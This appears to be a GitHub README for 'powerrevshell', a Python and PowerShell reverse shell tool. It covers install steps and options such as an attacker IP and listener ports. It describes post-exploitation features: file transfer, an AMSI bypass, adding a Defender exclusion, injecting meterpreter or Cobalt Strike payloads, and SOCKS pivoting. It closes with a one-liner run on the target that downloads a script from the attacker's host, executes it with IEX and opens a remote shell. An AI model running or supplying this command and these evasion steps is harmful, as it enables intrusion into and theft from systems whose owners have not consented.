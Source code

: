 # Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start](https://user-images.githubusercontent.com/82824055/170969038-c81c54a0-721b-44f5-835b-86d11840211f.png)

# Optional argument:
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f &emsp;&emsp;&emsp;&emsp;&emsp;&emsp; smb folder for transfer and execute funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i attacker ip    &emsp;&nbsp;    Enter Attacker IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If port are being used it kill the process to force the exexcution.\

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option.

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines, to prevent data loss, on each message, are sent support text and md5sum to know if the actual file option are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload can be meterpreter or cobalt strike...\
The paylaod must be a cs file.

```
payload <payload.cs>
```

For the socks functionality this work [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy) is being used.

### socks-start

Socks-start start a socks proxy to your machine.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by closing the powershell process, if the command exclude was used it will delete the exclusion also if it was started a socks proxy it will kill it before closing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1') IEX; Send-Shell -i <IP> -p <ShellPort>
```
